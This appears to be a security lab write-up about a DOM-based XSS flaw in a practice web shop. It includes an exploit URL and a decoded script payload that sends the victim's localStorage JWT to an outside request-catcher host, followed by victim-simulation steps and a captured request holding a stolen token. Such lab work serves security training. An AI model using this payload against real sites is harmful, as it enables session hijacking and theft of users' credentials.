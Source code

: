 # 5 DOM Local Storage

## Vulnerability Location

The Shop page contains a DOM-based XSS vulnerability in the `selectedQuantity` query parameter that allows stealing the JWT token from localStorage.

## Attack Steps

1. **Login** as customer0/compass0 and click "Shop"
2. **Observe** the URL contains `selectedQuantity=1` parameter
3. **Craft malicious URL** with payload that steals token from localStorage

## Exploit URL

```
https://9e869a19-cf02-4e1c-b1ec-6fb2cfe54c74.i.vuln.land/#!/shop?selectedQuantity=%3Cscript%3Efetch('https://be882089-ad91-45b5-900a-c06e0a7c6d6f.i.vuln.land/x?token='%2BlocalStorage.getItem('token'))%3C/script%3E
```

## Decoded Payload

```javascript
<script>
  fetch('https://be882089-ad91-45b5-900a-c06e0a7c6d6f.i.vuln.land/x?token='+localStorage.getItem('token'))
</script>
```

**How it works:**

- Reads the authentication token from `localStorage.getItem('token')`
- Sends it to the attacker's request catcher via `fetch()` API
- Token is appended as a URL parameter

## Victim Simulation

1. Open new browser session
2. Login as customer1/compass1
3. Paste the malicious URL into the address bar
4. Press Enter - the JavaScript executes and steals the token

## Captured Request

```
===================================================
URL: http://be882089-ad91-45b5-900a-c06e0a7c6d6f.i.vuln.land/x?token="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjpmYWxzZSwiX2lkIjoiNWFhMDQ4MWU4NzZkOWQzOWQ0Mzk3ODU5IiwidXNlcm5hbWUiOiJjdXN0b21lcjAiLCJmaXJzdG5hbWUiOiJKdWxpYW5lIiwibGFzdG5hbWUiOiJTY2h1bHplIiwiZW1haWwiOiJKdWxpYW5lLlNjaHVsemVAZ21haWwuY29tIiwiaWF0IjoxNzYwNTU3NjI2LCJhdWQiOiJzZWxmIiwiaXNzIjoid2Vic2hvcCJ9.WuihbMBHR065TbqO7194ZZrUSyGaWj2VTok5OAPsMlo"
METHOD: GET
IP: 10.3.0.1
Time: 2025-10-15 20:16:33
Headers:
Host: be882089-ad91-45b5-900a-c06e0a7c6d6f.i.vuln.land
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/26.0.1 Safari/605.1.15
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en;q=0.9
Origin: https://9e869a19-cf02-4e1c-b1ec-6fb2cfe54c74.i.vuln.land
```